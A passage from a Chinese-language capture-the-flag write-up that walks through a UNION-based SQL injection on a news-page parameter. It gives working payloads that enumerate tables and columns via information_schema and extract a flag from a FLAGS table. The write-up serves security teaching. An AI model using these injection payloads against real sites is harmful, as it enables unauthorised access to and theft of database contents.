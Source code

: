 `DATABASE()` 是 SQL 定義的 function，因此可以輕鬆拿到我們的目標資料庫！
目前可以知道資料庫名稱為 **newsdb** ，下一步要找的是表格名稱。

```http
https://news.macacahub.tw/new.php?id=6 UNION SELECT GROUP_CONCAT(table_name),NULL,NULL FROM information_schema.tables WHERE table_schema=database()
```

> 注意，如果沒有用 `GROUP_CONCAT` 把 table_name 包起來，在 SQL query 找到第一筆符合條件的資料就會return，不會將所有符合條件的結果都列出來。

![ ](./pic/0-5.png)

這裡開始就會牽涉到 SQL 的結構，這裡用到 `information_schema` 是 MySQL 這種關聯式資料庫的一種特殊結構描述，用途是儲存資料庫的中繼資料，有興趣的可以參考 **飛飛** 的 [Web Security 魔法使攻略─SQL injection 起手式](https://ithelp.ithome.com.tw/articles/10220294)。
總之，搭配 SQL query 可以撈到資料庫內的兩份表格 **FLAGS**, **News**，我們很直覺的猜測 Flag 放在 **FLAGS**、公告欄訊息放在 **News**！

下一步，來看看表格內的欄位資訊。

```http
https://news.macacahub.tw/new.php?id=6 UNION SELECT GROUP_CONCAT(column_name),NULL,NULL FROM information_schema.columns WHERE table_schema=database() and table_name='FLAGS' 
```

> 這邊的 column_name 同理記得用 `GROUP_CONCAT()` 才能把所有資訊撈出來，如果嫌太輕鬆可以用 `LIMIT` 慢慢戳（？）

![ ](./pic/0-6.png)

可以發現只有兩欄，分別是 id 和 flag，剩下就是針對欄位名稱要把我們想知道的 Flag 拿出來！

```http
https://news.macacahub.tw/new.php?id=6 UNION SELECT id,flag,NULL FROM FLAGS
```

![ ](./pic/0-7.png)
